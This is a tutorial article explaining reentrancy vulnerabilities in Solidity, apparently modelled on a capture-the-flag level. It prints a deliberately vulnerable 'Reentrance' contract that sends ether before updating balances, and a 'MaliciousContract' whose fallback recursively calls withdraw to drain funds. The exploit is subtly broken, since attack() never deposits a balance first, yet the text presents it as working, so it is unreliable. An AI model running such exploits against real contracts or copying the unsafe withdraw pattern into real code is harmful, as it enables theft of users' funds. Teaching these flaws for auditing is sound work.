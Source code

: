 # Understanding Reentrancy in Solidity Smart Contracts

Reentrancy is a critical concept in the realm of blockchain security, particularly when it comes to auditing and securing smart contracts. Mastering this concept can unlock numerous insights and strategies for ensuring the robustness and safety of decentralized applications (DApps).

## What is Reentrancy?

Reentrancy refers to the ability of a contract to call back into itself or another contract while it is still executing. This characteristic can lead to unexpected behaviors and vulnerabilities if not handled properly. In Solidity smart contracts, reentrancy bugs are particularly concerning as they can enable malicious actors to exploit vulnerabilities and drain funds from contracts.

## Exploring a Target Contract

Consider the following Solidity smart contract:

    ```solidity
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.6.12;
    
    import 'openzeppelin-contracts-06/math/SafeMath.sol';
    
    contract Reentrance {
      
      using SafeMath for uint256;
      mapping(address => uint) public balances;
    
      function donate(address _to) public payable {
        balances[_to] = balances[_to].add(msg.value);
      }
    
      function balanceOf(address _who) public view returns (uint balance) {
        return balances[_who];
      }
    
      function withdraw(uint _amount) public {
        if(balances[msg.sender] >= _amount) {
          (bool result,) = msg.sender.call{value:_amount}("");
          if(result) {
            _amount;
          }
          balances[msg.sender] -= _amount;
        }
      }
    
      receive() external payable {}
    }

    
This contract allows users to donate funds, check their balances, and withdraw funds. However, it contains a vulnerability related to reentrancy in the withdraw function.

Exploiting Reentrancy
To exploit the reentrancy vulnerability in the withdraw function, we can create a malicious contract that calls the withdraw function of the target contract and has a fallback function that gets triggered during the withdrawal process. This fallback function can then recursively call the withdraw function, allowing it to repeatedly drain funds from the target contract.


Here's an example of an exploit contract:


    ```solidity
    contract MaliciousContract {
        Reentrance private targetContract;
    
        constructor(address _targetContract) public {
            targetContract = Reentrance(_targetContract);
        }
    
        function attack() public payable {
            targetContract.withdraw(msg.value);
        }
    
        fallback() external payable {
            if (address(targetContract).balance >= msg.value) {
                targetContract.withdraw(msg.value);
            }
        }
    }


In this exploit contract, the attack function initiates the reentrancy attack by calling the withdraw function of the target contract (Reentrance). Additionally, the fallback function is triggered during the withdrawal process, allowing for recursive calls to the withdraw function.

### Conclusion
Understanding reentrancy vulnerabilities and how they can be exploited is crucial for ensuring the security of smart contracts on blockchain platforms. By identifying and addressing such vulnerabilities, developers can build more robust and resilient decentralized applications, protecting users' funds and maintaining trust in the ecosystem.


